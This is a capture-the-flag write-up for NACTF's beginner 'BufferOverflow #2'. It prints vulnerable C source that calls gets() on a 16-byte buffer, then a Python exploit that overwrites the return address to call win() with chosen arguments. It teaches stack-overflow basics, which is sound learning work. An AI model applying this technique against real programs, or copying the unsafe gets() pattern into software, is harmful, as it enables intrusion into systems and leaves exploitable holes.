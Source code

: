 ```yaml
---
layout: post
title: BufferOverflow-#2 
tags: [Binary Exploitation]
comments: true
---
```


This is a writeup on how i solved **BufferOverflow #2** from NACTF. I hope this will help beginners in binary exploitation while doing ctfs. This is a Beginner level challenge.

**CTF : https://www.nactf.com/**

#### Lets start..

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.1.png)

Download the binary to our system, make it executable and run the binary.

Like the previous challenge, this binary is also just printing the input back to us, behaving like a echo program.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.2.png)

Lets analyse the source code of this binary to know how it is working.

Here is the source code:
~~~
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
    if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
    {
        puts("Close, but not quite.");
        exit(1);
    }
    printf("You win!\n");
    char buf[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
    }
    else
    {
        fgets(buf, sizeof(buf), f);
        printf("flag: %s\n", buf);
    }
}
void vuln()
{
    char buf[16];
    printf("Type something>");
    gets(buf);
    printf("You typed %s!\n", buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
~~~
From source code it is clear that we have to do the way we did for BufferOverflow #1 but we have to pass 2 arguments to win() function.

The function is checking the arguments we passed, we will get flag only after we pass the arguments in corrrect way.

But important thing is to note is the type of arg1 which is long long, which is 8 byte long.

Check more about 'C' data types.

So

arg1 =  0x0000000014B4DA55

arg2 =  0xF00DB4BE

Lets do it.

Like before first step is to controll eip register. I was managed to control eip register as you can see on the below image.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.3.png)

So now we controlled eip, controlled eip with 4 B's (BBBB=0X42424242).

Next step is to find the address of win() function and overwrite eip with that so win() function will get executed.

On  GDB type **disas win** and take the starting address of win() function.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.4.png)

adress of win() = 0x080491c2

Now we can craft our payload...

**payload = "A"*28 + address_of_win() +dummy_return + arg1 + arg2**

Create a file called exploit.py with the below contents.

exploit.py:
~~~
buffer = ""

#junk data
buffer += "A"*28 

#address of win() 0x080491c2
buffer += "\xc2\x91\x04\x08"

#dummy return address 0xf7e0b7a0
buffer += "\xa0\xb7\xe0\xf7"

#arg1 0x0000000014B4DA55
buffer += "\x55\xda\xb4\x14\x00\x00\x00\x00"

#arg2 0xF00DB4BE
buffer += "\xbe\xb4\x0d\xf0"

print buffer 
~~~

Lets do the final thing....

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.5.png)

So it is done.

Lets do it in the remote server...

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.6.png)

We got the flaaaaag ...    :)
